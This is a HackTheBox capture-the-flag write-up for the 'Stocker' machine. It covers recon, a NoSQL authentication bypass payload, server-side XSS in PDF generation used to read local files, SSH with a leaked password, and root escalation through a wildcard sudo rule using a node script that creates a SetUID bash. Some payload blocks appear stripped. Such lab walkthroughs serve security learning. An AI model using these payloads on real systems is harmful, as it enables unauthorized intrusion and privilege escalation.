








# HTB: Stocker

[hackthebox](/tags#hackthebox ) [ctf](/tags#ctf ) [htb-stocker](/tags#htb-
stocker ) [nmap](/tags#nmap ) [ubuntu](/tags#ubuntu ) [ffuf](/tags#ffuf )
[subdomain](/tags#subdomain ) [feroxbuster](/tags#feroxbuster )
[burp](/tags#burp ) [burp-repeater](/tags#burp-repeater )
[chatgpt](/tags#chatgpt ) [express](/tags#express ) [nodejs](/tags#nodejs )
[nosql](/tags#nosql ) [nosql-auth-bypass](/tags#nosql-auth-bypass ) [nosql-
injection](/tags#nosql-injection ) [xss](/tags#xss ) [serverside-
xss](/tags#serverside-xss ) [pdf](/tags#pdf ) [file-read](/tags#file-read )  
  
Jun 24, 2023

HTB: Stocker

Stocker starts out with a NoSQL injection allowing me to bypass login on the
dev website. From there, I’ll exploit purchase order generation via a
serverside cross site scripting in the PDF generation that allows me to read
files from the host. I’ll get the application source and use a password it
contains to get a shell on the box. The user can run some NodeJS scripts as
root, but the sudo rule is misconfiguration that allows me to run arbirtray
JavaScript, and get a shell as root.

## Box Info

Name | [Stocker](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fstocker)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fstocker)  
---|---  
Release Date | [14 Jan 2023](https://twitter.com/hackthebox_eu/status/1613566516657528832)  
Retire Date | 24 Jun 2023  
OS | Linux   
Base Points | Easy [20]  
Rated Difficulty |   
Radar Graph |   
 | 00:07:29[ Ziemni](https://app.hackthebox.com/users/12507)  
  
 | 00:09:02[ Ziemni](https://app.hackthebox.com/users/12507)  
  
Creator | [ JoshSH](https://app.hackthebox.com/users/269501)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.196
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-12 06:11 EDT
    Nmap scan report for 10.10.11.196
    Host is up (0.096s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 6.89 seconds
    oxdf@hacky$ nmap -p 22,80 -sCV 10.10.11.196
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-12 06:12 EDT
    Nmap scan report for 10.10.11.196
    Host is up (0.093s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://stocker.htb
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.32 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) version, the host is likely running Ubuntu 20.04 focal.

The website redirects to `stocker.htb`.

### Subdomain Fuzz

Given the use of hostnames on the webserver, I’ll fuzz to see if any
subdomains of `stocker.htb` return something different from the default using
`ffuf`. I’ll using `-mc all` to accept all HTTP response codes and `-ac` to
auto-filter responses that look like the default case.

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.11.196
     :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
     :: Header           : Host: FUZZ.stocker.htb
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
    ________________________________________________
    
    [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 130ms]
        * FUZZ: dev
    
    :: Progress: [19966/19966] :: Job [1/1] :: 429 req/sec :: Duration: [0:00:47] :: Errors: 0 ::
    

It finds `dev.stocker.htb`. I’ll add both to my `/etc/hosts` file:

    
    
    10.10.11.196 stocker.htb dev.stocker.htb
    

### stocker.htb - TCP 80

#### Site

The site sells some kind of furnature or homegoods:

[_Click for full image_](../img/image-20230613171315004.png)

All of the links on the page are to other parts of the same page. There’s no
much interesting here.

#### Tech Stack

The HTTP response headers don’t give anything away:

    
    
    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Date: Mon, 12 Jun 2023 10:16:58 GMT
    Content-Type: text/html
    Last-Modified: Wed, 21 Dec 2022 18:31:13 GMT
    Connection: close
    ETag: W/"63a350f1-3c67"
    Content-Length: 15463
    

I’m able to guess at name of the index page, and the site loads as
`/index.html`, suggesting this might just be a static site.

Nothing in the site source looks interesting.

#### Directory Brute Force

I’ll run `feroxbuster` against the site:

    
    
    oxdf@hacky$ feroxbuster -u http://stocker.htb
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://stocker.htb
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🔎  Extract Links         │ true
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    301      GET        7l       12w      178c http://stocker.htb/js => http://stocker.htb/js/
    301      GET        7l       12w      178c http://stocker.htb/css => http://stocker.htb/css/
    301      GET        7l       12w      178c http://stocker.htb/img => http://stocker.htb../img/
    200      GET       81l      475w    40738c http://stocker.htb/fonts/inter-v12-latin-500.woff
    301      GET        7l       12w      178c http://stocker.htb/fonts => http://stocker.htb/fonts/
    200      GET       97l      503w    40143c http://stocker.htb/fonts/inter-v12-latin-300.woff
    200      GET       78l      424w    31843c http://stocker.htb/fonts/inter-v12-latin-500.woff2
    200      GET       39l      197w    15603c http://stocker.htb../img/webp/people23.webp
    200      GET     2059l    12963w   984134c http://stocker.htb../img/angoose.png
    200      GET        4l       10w      696c http://stocker.htb../img/favicon-16x16.png
    200      GET       40l      241w    18399c http://stocker.htb../img/webp/people1.webp
    200      GET        6l       21w     1354c http://stocker.htb../img/favicon-32x32.png
    200      GET       20l      129w     9226c http://stocker.htb../img/apple-touch-icon.png
    200      GET        7l     1222w    79742c http://stocker.htb/js/bootstrap.bundle.min.js
    200      GET       12l       62w     3907c http://stocker.htb../img/webp/interior37.webp
    200      GET        6l      546w    42350c http://stocker.htb/css/theme.min.css
    200      GET       55l      383w    31373c http://stocker.htb/fonts/inter-v12-latin-300.woff2
    200      GET      122l      561w    41547c http://stocker.htb../img/webp/people2.webp
    200      GET       91l      507w    41060c http://stocker.htb/fonts/inter-v12-latin-700.woff
    200      GET        1l      268w    13800c http://stocker.htb/js/aos.js
    200      GET       56l      418w    32043c http://stocker.htb/fonts/inter-v12-latin-700.woff2
    403      GET        7l       10w      162c http://stocker.htb../img/webp/
    200      GET      176l     1153w    89907c http://stocker.htb../img/webp/interior29.webp
    200      GET      321l     1360w    15463c http://stocker.htb/
    [####################] - 1m    180027/180027  0s      found:24      errors:0      
    [####################] - 58s    30000/30000   516/s   http://stocker.htb/ 
    [####################] - 57s    30000/30000   520/s   http://stocker.htb/js/ 
    [####################] - 57s    30000/30000   520/s   http://stocker.htb/css/ 
    [####################] - 57s    30000/30000   520/s   http://stocker.htb../img/ 
    [####################] - 57s    30000/30000   520/s   http://stocker.htb/fonts/ 
    [####################] - 57s    30000/30000   521/s   http://stocker.htb../img/webp/ 
    

The spider module that runs by default shows images / CSS / fonts, but nothing
else of interest.

### dev.stocker.htb

#### Site

`dev.stocker.htb` redirects to `/login` which returns a login page:

Entering some guess creds shows the error message, which seems likely to be
the same for invalid user and invalid password:

#### Tech Stack

The HTTP response headers show that this site is running on Express, a NodeJS
framework:

    
    
    HTTP/1.1 302 Found
    Server: nginx/1.18.0 (Ubuntu)
    Date: Mon, 12 Jun 2023 10:35:03 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 56
    Connection: close
    X-Powered-By: Express
    Location: /login
    Vary: Accept
    

The 404 page is the default Express 404 as well:

#### Directory Brute Force

`feroxbuster` on this site also returns nothing very interesting:

    
    
    oxdf@hacky$ feroxbuster -u http://dev.stocker.htb
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://dev.stocker.htb
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🔎  Extract Links         │ true
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET       10l       15w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    302      GET        1l        4w       28c http://dev.stocker.htb/ => http://dev.stocker.htb/login
    302      GET        1l        4w       28c http://dev.stocker.htb/logout => http://dev.stocker.htb/login
    301      GET       10l       16w      179c http://dev.stocker.htb/static => http://dev.stocker.htb/static/
    200      GET       39l       62w      597c http://dev.stocker.htb/static/css/signin.css
    200      GET       75l      200w     2667c http://dev.stocker.htb/Login
    200      GET       75l      200w     2667c http://dev.stocker.htb/login
    301      GET       10l       16w      187c http://dev.stocker.htb/static/img => http://dev.stocker.htb/static../img/
    301      GET       10l       16w      187c http://dev.stocker.htb/static/css => http://dev.stocker.htb/static/css/
    302      GET        1l        4w       48c http://dev.stocker.htb/stock => http://dev.stocker.htb/login?error=auth-required
    301      GET       10l       16w      179c http://dev.stocker.htb/Static => http://dev.stocker.htb/Static/
    302      GET        1l        4w       28c http://dev.stocker.htb/Logout => http://dev.stocker.htb/login
    301      GET       10l       16w      187c http://dev.stocker.htb/Static/img => http://dev.stocker.htb/Static../img/
    301      GET       10l       16w      187c http://dev.stocker.htb/Static/css => http://dev.stocker.htb/Static/css/
    200      GET       75l      200w     2667c http://dev.stocker.htb/LOGIN
    302      GET        1l        4w       48c http://dev.stocker.htb/Stock => http://dev.stocker.htb/login?error=auth-required
    301      GET       10l       16w      179c http://dev.stocker.htb/STATIC => http://dev.stocker.htb/STATIC/
    301      GET       10l       16w      187c http://dev.stocker.htb/STATIC/img => http://dev.stocker.htb/STATIC../img/
    301      GET       10l       16w      187c http://dev.stocker.htb/STATIC/css => http://dev.stocker.htb/STATIC/css/
    [####################] - 13m   300033/300033  0s      found:18      errors:0      
    [####################] - 8m     30000/30000   57/s    http://dev.stocker.htb/ 
    [####################] - 10m    30000/30000   46/s    http://dev.stocker.htb/static/ 
    [####################] - 10m    30000/30000   45/s    http://dev.stocker.htb/static/css/ 
    [####################] - 10m    30000/30000   45/s    http://dev.stocker.htb/static../img/ 
    [####################] - 11m    30000/30000   44/s    http://dev.stocker.htb/Static/ 
    [####################] - 11m    30000/30000   44/s    http://dev.stocker.htb/Static/css/ 
    [####################] - 11m    30000/30000   44/s    http://dev.stocker.htb/Static../img/ 
    [####################] - 8m     30000/30000   59/s    http://dev.stocker.htb/STATIC/ 
    [####################] - 8m     30000/30000   60/s    http://dev.stocker.htb/STATIC/css/ 
    [####################] - 8m     30000/30000   60/s    http://dev.stocker.htb/STATIC../img/ 
    

`/stock` is a page, but it just returns a redirect to `/login`, presumably
needing a session to access it.

## Shell as angoose

### Authentication Bypass

#### NoSQL Injection

#### JSON POST

It’s always worth looking for authentication bypasses by SQL injection.
Putting a `'` or `"` in the username or password doesn’t seem to change the
response from the host. Express applications also tend to use NoSQL solutions
like MongoDB, so I’ll want to check for those injections as well.

I’ll send the request over to Burp Repeater. First I’ll want to convert the
request to JSON by changing the `Content-Type` header from `application/x-www-
form-urlencoded` to `application/json` and changing the payload into JSON:

The response looks the same as the natural submit, so it seems to work ok in
this format.

#### Imagine Vulnerable Code

To check for a NoSQL injection auth bypass, I’ll first picture what the query
on the server might look like. In fact, I’ll ask ChatGPT to imagine one for
me:

[_Click for full image_](../img/image-20230612082903550.png)

This code is kind of vulnerable to NoSQL injection, in that if I pass a
username of `{"$ne": "0xdf"}`, then it will find a user who’s usernane is not
“0xdf”.

But then it will fail because the user’s password hash will almost certainly
not match the password I submitted, and there’s no injection opportunity
there.

What is the database is using plaintext passwords? A vulnerable query might
look like:

    
    
    const user = await User.findOne({ username, password });
    

#### Successful Auth Bypass

To bypass the above query, I’ll submit the following JSON:

    
    
    {"username":{"$ne": "0xdf"}, "password": {"$ne":"0xdf"}}
    

That would make the query:

    
    
    const user = await User.findOne({ {"$ne": "0xdf"}, {"$ne":"0xdf"} });
    

So as long as there’s at least one user with a username that isn’t 0xdf and a
password that isn’t “0xdf”, that user will be returned and I’ll log in. It
works:

### Enumerate Site

#### Auth in Firefox

It seems I have a session cookie before the login attempt, and no new cookie
is set, so the successful auth must be associated with that same cookie. I’ll
visit `dev.stocker.htb/stock` in Firefox (where that cookie originated and is
still present) and it works:

[_Click for full image_](../img/image-20230613172455971.png)

#### Site

The site is a store, with four items. I can add them to the cart, and clicking
“View Cart” pops a window that show the items:

If I click “Purchase”, a new window pops up:

The link to the purchase order provides a PDF:

#### PDF

I’ll download the PDF and take a closer look with `exiftool`:

    
    
    oxdf@hacky$ exiftool document.pdf 
    ExifTool Version Number         : 12.40
    File Name                       : document.pdf
    Directory                       : .
    File Size                       : 37 KiB
    File Modification Date/Time     : 2023:06:12 09:12:54-04:00
    File Access Date/Time           : 2023:06:12 09:12:53-04:00
    File Inode Change Date/Time     : 2023:06:12 09:12:54-04:00
    File Permissions                : -rwxrwx---
    File Type                       : PDF
    File Type Extension             : pdf
    MIME Type                       : application/pdf
    PDF Version                     : 1.4
    Linearized                      : No
    Page Count                      : 1
    Tagged PDF                      : Yes
    Creator                         : Chromium
    Producer                        : Skia/PDF m108
    Create Date                     : 2023:06:12 12:45:19+00:00
    Modify Date                     : 2023:06:12 12:45:19+00:00
    

The metadata field “Producer” has “Skia/PDF m108” and the “Creator” of
“Chromium”.

#### Request Flow

On visiting `/stocks`, there’s a background request to `/api/products` that
returns JSON with information about the products on the site:

Interestingly, adding an item to my cart doesn’t send any requests. It must be
saving that locally. In fact, if I refresh the page, the cart goes back to
empty, so it’s not even stored in local storage, but rather just in the
running client-side JavaScript.

Clicking “Submit Purchase” is what sends a POST request to `/api/order`:

    
    
    POST /api/order HTTP/1.1
    Host: dev.stocker.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://dev.stocker.htb/stock
    Content-Type: application/json
    Content-Length: 156
    Origin: http://dev.stocker.htb
    Connection: close
    Cookie: connect.sid=s%3APxu2HsrL-7N_vOrL1eublJh0PlcbdAIT.01U2wLacMZxdcgSdVMDSah%2BVPsSAt4cVv0aEEkQ0KEU
    
    {"basket":[{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
    

It includes the items to purchase.

#### Bad Request

It’s often useful to try to crash a site like this and look at the error
messages. I’ll copy the `/api/order` request to Repeater and remove one of the
values. It crashes:

The application is running out of `/var/www/dev`.

### File Read

#### Server-Side XSS

Searching for “skia/pdf m108 exploit”, the second result is a link to [this
HackTricks article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-
scripting/server-side-xss-dynamic-pdf) about “Server Side XSS (Dynamic PDF)”.

> If a web page is creating a PDF using user controlled input, you can try to
> **trick the bot** that is creating the PDF into **executing arbitrary JS
> code**. So, if the **PDF creator bot finds** some kind of **HTML** **tags**
> , it is going to **interpret** them, and you can **abuse** this behaviour to
> cause a **Server XSS**.

There’s a POC payload in that article that just tries to write “test”:

    
    
    
    

If this works, that shows that I can run JavaScript.

The easiest field to inject into looks like the “title” field. I’ll send the
POST request to Repeater, and put this payload in the `title` field, as that’s
one that is displayed back in the PDF:

The site reports success. Visiting the url for that purchase order
(`/api/po/[id]`) shows it worked:

“test” overwrote all the other HTML / CSS that was making the PDF.

#### File Read POCs

In the [Read local file](https://book.hacktricks.xyz/pentesting-web/xss-cross-
site-scripting/server-side-xss-dynamic-pdf#read-local-file) section, there are
POCs to try. The first one involves a script using an `XMLHttpRequest` to read
a file:

    
    
    
    

I’ll remove the newlines and escape the double quotes, place it as the
`title`, and it works, kind of:

Only the start of `/etc/passwd` makes it into the page before it’s truncated:

    
    
    oxdf@hacky$ echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9" | base64 -d
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/base64: invalid input
    

It’s possible that there’s a way to pull a more complete string out of the
PDF, but I’ll look at the other POCs, like this one that loads the file in an
`iframe`:

    
    
    <iframe src=file:///etc/passwd></iframe>
    

Still kind of the same issue. There are a couple that use attachments, but I
couldn’t get them to work.

The fix here is either to set the `iframe` size, or use a request and don’t
base64 the data so that it will line wrap. I’ll go with the latter.

I’ll remove the `boa` from the previous payload:

    
    
    
    

After escaping the `"` and removing newlines, I get:

    
    
    
    

This returns something much better:

That’s nice, but there’s no newlines. Another technique that works nicely is
to write an `iframe` into the page using the `img` tag I used at the start to
test writing. I like this better than just inserting an `iframe` as it gets
more space:

    
    
    </iframe>')\" />
    

#### Source Analysis

I’ll fetch the source using the same technique. I know it’s running from
`/var/www/dev`. The main file is likely `index.js`, so I’ll start there:

    
    
    {"basket":[{"_id":"638f116eeb060210cbd83a91","title":"</iframe>')\" />","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
    

This code does go more than a page, so I would have to switch back to the
“just print the text without newlines” version if I want the full thing.
Fortunately, for me, this is all I need.

At the top of the page, there’s a connection string to the MongoDB instance
that has the password “IHeardPassphrasesArePrettySecure”.

### SSH

With that password, I should try logging in. It doesn’t work for a dev user,
and in checking `/etc/passwd`, there isn’t a dev user. The only target user is
angoose. That works:

    
    
    oxdf@hacky$ sshpass -p IHeardPassphrasesArePrettySecure ssh angoose@stocker.htb
    
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    angoose@stocker:~$
    

And I can grab `user.txt`:

    
    
    angoose@stocker:~$ cat user.txt
    693f856f************************
    

## Shell as root

### Enumeration

#### sudo

The angoose user can run `node` with scripts from a given directory as root:

    
    
    angoose@stocker:~$ sudo -l
    [sudo] password for angoose: 
    Matching Defaults entries for angoose on stocker:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User angoose may run the following commands on stocker:
        (ALL) /usr/bin/node /usr/local/scripts/*.js
    

#### Scripts

That directory has five scripts in it:

    
    
    angoose@stocker:~$ ls /usr/local/scripts/
    creds.js  findAllOrders.js  findUnshippedOrders.js  node_modules  profitThisMonth.js  schema.js
    

Trying to run one as angoose fails:

    
    
    angoose@stocker:~$ node /usr/local/scripts/findAllOrders.js 
    node:internal/fs/utils:348
        throw err;
        ^
    
    Error: EACCES: permission denied, open '/usr/local/scripts/findAllOrders.js'
        at Object.openSync (node:fs:600:3)
        at Object.readFileSync (node:fs:468:35)
        at Module._extensions..js (node:internal/modules/cjs/loader:1176:18)
        at Module.load (node:internal/modules/cjs/loader:1037:32)
        at Module._load (node:internal/modules/cjs/loader:878:12)
        at Function.executeUserEntryPoint [as runMain] (node:internal/modules/run_main:81:12)
        at node:internal/main/run_main_module:23:47 {
      errno: -13,
      syscall: 'open',
      code: 'EACCES',
      path: '/usr/local/scripts/findAllOrders.js'
    }
    
    Node.js v18.12.1
    

This user doesn’t have permissions to connect to the DB. Running as root
prints a nice table:

    
    
    angoose@stocker:~$ sudo node /usr/local/scripts/findAllOrders.js 
    Connecting to mongodb://<credentials>@localhost/prod?authSource=admin&w=1
    
    Found 16 orders in production database:
    
    +----------------------------------+--------------+-------------+
    |             Order ID             | Order Amount |   Shipped   |
    +----------------------------------+--------------+-------------+
    | 417f39090dc1aa9ef689b76fe66a25d2 | £657.61      | Shipped     |
    | 91c3857d76cb1d6ab3d0015fb8d0a0a6 | £680.31      | Not Shipped |
    | 548ec7fe261f4800c5cc6738401a9561 | £949.71      | Not Shipped |
    | 07bd92805a1e692ef4104c37a2783e3b | £655.28      | Shipped     |
    | 7392c198ea05e867e3f6c3592e6b6c1a | £196.45      | Shipped     |
    | 8ecc31c878171e3dfcb986caf2311f51 | £156.15      | Not Shipped |
    | 415977768be7be8a816f1b1f8130b64b | £95.00       | Not Shipped |
    | 0f5d3cc7209f8fd6ec7bce8c62049345 | £304.56      | Shipped     |
    | de48aa1c033d78d20594e3e7d5a2ebad | £179.67      | Shipped     |
    | aa794f3d4cf22a4b85d85e755a6c9dce | £220.03      | Not Shipped |
    | dbccfe8094c90dcea4cda7b8d4088195 | £693.38      | Shipped     |
    | fc7f7c4edd5994280353a9e6f9e2eccd | £991.99      | Shipped     |
    | b5e5ea7e83b726b84b9affa06d44a4ff | £28.14       | Shipped     |
    | 46ddede8394ef89374aeca3561000c04 | £11.07       | Shipped     |
    | bae6a3d4fb30a54e7ae62bf8a867f08f | £869.14      | Shipped     |
    | 376d730f8178264df700fe32bfaa55f5 | £220.16      | Shipped     |
    +----------------------------------+--------------+-------------+
    

### Malicious JS Script

The issue here is that while the admin clearly wanted to only allow angoose to
run scripts from that directory, `*` will match on `../` as well, so I can run
any JS on the filesystem.

I’ll write a short JavaScript file that will create a copy of `bash`, set it
to owned by root, and make it SetUID to run as root:

    
    
    require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
    

Now I run that with `sudo`:

    
    
    angoose@stocker:~$ sudo node /usr/local/scripts/../../../dev/shm/0xdf.js 
    angoose@stocker:~$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1183448 Jun 12 16:56 /tmp/0xdf
    

`/tmp/0xdf` is there, owned by root, and has the `s` in the owner execute
field.

I’ll run it with `-p` to keep privs, and get a shell as root:

    
    
    angoose@stocker:~$ /tmp/0xdf  -p
    0xdf-5.0#
    

And the root flag:

    
    
    0xdf-5.0# cat root.txt
    c779fc97************************
    

